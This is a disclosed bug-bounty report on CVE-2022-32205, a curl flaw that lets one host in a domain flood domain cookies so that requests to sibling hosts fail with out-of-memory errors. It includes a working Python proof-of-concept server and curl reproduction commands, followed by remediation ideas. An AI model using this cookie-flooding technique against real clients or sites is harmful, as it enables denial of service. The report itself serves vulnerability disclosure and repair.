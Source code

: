 # CVE-2022-32205: Set-Cookie denial of service

## Report Details
- **Report ID**: 1569946
- **URL**: https://hackerone.com/reports/1569946
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-05-13T19:53:49.246Z
- **Disclosed**: 2022-06-27T06:56:08.520Z

## Reporter
- **Username**: nyymi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
Curl fails to limit the number of cookies that can be set by a single host/domain. It can easily lead to a situation where constructing the request towards a host will end up consuming more than `DYN_HTTP_REQUEST` memory, leading to instant `CURLE_OUT_OF_MEMORY`.

Any host in a given domain can target any other hosts in the same domain by using domain cookies. The attack works from both `HTTP` and `HTTPS` and from unprivileged ports.

## Steps To Reproduce:
  1. Run the following python web server:
```
from http.server import BaseHTTPRequestHandler, HTTPServer

class MyServer(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        for i in range(0,256):
            self.send_header("Set-Cookie", "f{}={}; Domain=hax.invalid".format(i, "A" * 4092))
        self.end_headers()

if __name__ == "__main__":
    webServer = HTTPServer(("127.0.0.1", 9000), MyServer)
    try:
        webServer.serve_forever()
    except KeyboardInterrupt:
        pass
    webServer.server_close()
 ```
  2.  `curl -c cookie.txt -b cookie.txt --connect-to evilsite.hax.invalid:80:127.0.0.1:9000 http://evilsite.hax.invalid/`
  3.  `curl -c cookie.txt -b cookie.txt --connect-to targetedsite.hax.invalid:80:127.0.0.1:9000 http://targetedsite.hax.invalid/`

This is CWE-770: Allocation of Resources Without Limits or Throttling

# Remediation ideas
The cookie matching being as complicated as it is makes it a bit hard to create a fix that always works fine. The request inhabits other headers as well as the cookies, so the amount of storage available for the cookies also varies per request.

One relatively "easy" way to mitigate this would be to limit the amount of domain cookies a domain can have. But what should be done if  `Set-Cookie` would go over this limit? Maybe flush the oldest cookies?

## Impact

Denial of service

## Attachments
No attachments
